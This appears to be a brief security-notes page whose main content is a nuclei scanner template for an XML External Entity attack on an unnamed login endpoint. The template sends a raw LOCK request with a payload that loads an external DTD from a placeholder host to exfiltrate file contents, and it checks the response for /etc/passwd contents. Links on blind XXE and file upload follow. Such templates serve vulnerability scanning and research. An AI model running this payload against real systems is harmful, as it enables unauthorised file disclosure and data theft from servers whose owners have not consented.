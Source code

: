 # -  nuclei template to automate finding login pages
https://github.com/projectdiscovery/nuclei
```
id: XXE on XXXX Login

info:
  name: XML External Entity-XXXX
  author: dhiyaneshDk
  severity: high

requests:
  - raw: 
      - |
        LOCK /xxxx/test HTTP/1.1
        Host: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Cache-Control: max-age=0
        Content-Length: 178
        
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY % xxe SYSTEM "<FQDN>/exploitd.dtd">
        %xxe;
        %ext;
        ]>
        <foo><u>
        &exfil
        </u></foo>

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 500
      - type: word
        words:
          - '/root:x:0:0:root:/root:/bin/bash'
        part: body
```

# Blind XXE OOB over DNS using a PDF file
## Unrestricted File Upload 
https://www.youtube.com/watch?v=aSiIHKeN3ys&list=PLF7JR1a3dLONdkRYU_8-5OcgOzrWe2549&index=2&t=1s
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
